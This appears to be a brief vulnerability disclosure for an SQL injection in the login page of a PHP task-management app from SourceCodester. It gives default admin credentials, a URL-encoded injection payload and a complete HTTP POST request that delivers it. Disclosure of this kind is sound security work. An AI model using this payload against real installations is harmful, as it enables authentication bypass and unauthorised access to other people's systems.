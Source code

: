 # Simple Task Managing System - SQL injection

username:admin password:admin ----> {ip}index.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/index.php has SQL injection

Payload: login=admin%27and%27q%27%3D%27q&password=admin

SQL injection because id can be closed

![image]( )

```sql
POST /cve/Task%20Managing%20System%20in%20PHP/loginValidation.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 46
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=34a9idaoj7m7miduqt31hupisn
Origin: http://localhost
Referer: http://localhost/cve/Task%20Managing%20System%20in%20PHP/login.php
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

login=admin%27and%27q%27%3D%27q&password=admin
```
